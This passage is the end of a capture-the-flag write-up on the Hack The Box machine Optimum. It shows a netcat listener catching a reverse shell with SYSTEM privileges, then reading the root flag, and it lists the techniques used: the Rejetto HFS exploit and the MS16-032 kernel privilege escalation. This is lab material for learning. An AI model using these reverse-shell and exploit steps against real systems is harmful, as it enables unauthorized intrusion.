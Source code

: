 - **Profit:**

```shell
┌[siunam♥Mercury]-(~/ctf/htb/Machines/Optimum)-[2023.07.28|12:37:47(HKT)]
└> rlwrap -cAr nc -lvnp 53 
listening on [any] 53 ...
connect to [10.10.14.8] from (UNKNOWN) [10.10.10.8] 49212

PS C:\Users\kostas\Desktop^> whoami; ipconfig /all
nt authority\system

Windows IP Configuration

   Host Name . . . . . . . . . . . . : optimum
   Primary Dns Suffix  . . . . . . . : 
   Node Type . . . . . . . . . . . . : Hybrid
   IP Routing Enabled. . . . . . . . : No
   WINS Proxy Enabled. . . . . . . . : No

Ethernet adapter Ethernet0:

   Connection-specific DNS Suffix  . : 
   Description . . . . . . . . . . . : Intel(R) 82574L Gigabit Network Connection
   Physical Address. . . . . . . . . : 00-50-56-B9-C7-7F
   DHCP Enabled. . . . . . . . . . . : No
   Autoconfiguration Enabled . . . . : Yes
   IPv4 Address. . . . . . . . . . . : 10.10.10.8(Preferred) 
   Subnet Mask . . . . . . . . . . . : 255.255.255.0
   Default Gateway . . . . . . . . . : 10.10.10.2
   DNS Servers . . . . . . . . . . . : 10.10.10.2
   NetBIOS over Tcpip. . . . . . . . : Enabled
[...]
```

I'm `NT AUTHORITY\SYSTEM`! :D

## Rooted

**root.txt:**
```shell
PS C:\Users\Administrator\Desktop> type root.txt
{Redacted}
```

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/HackTheBox/Optimum/images/Pasted%20image%2020230728124139.png)

## Conclusion

What we've learned:

1. Exploiting Rejetto HTTP File Server (HFS) 2.3.x
2. Enumerating System Information
3. Finding Kernel Exploits Via [windows-exploit-suggester.py](https://github.com/AonCyberLabs/Windows-Exploit-Suggester)
4. Vertical Privilege Escalation Via Kernel Exploit (MS16-032)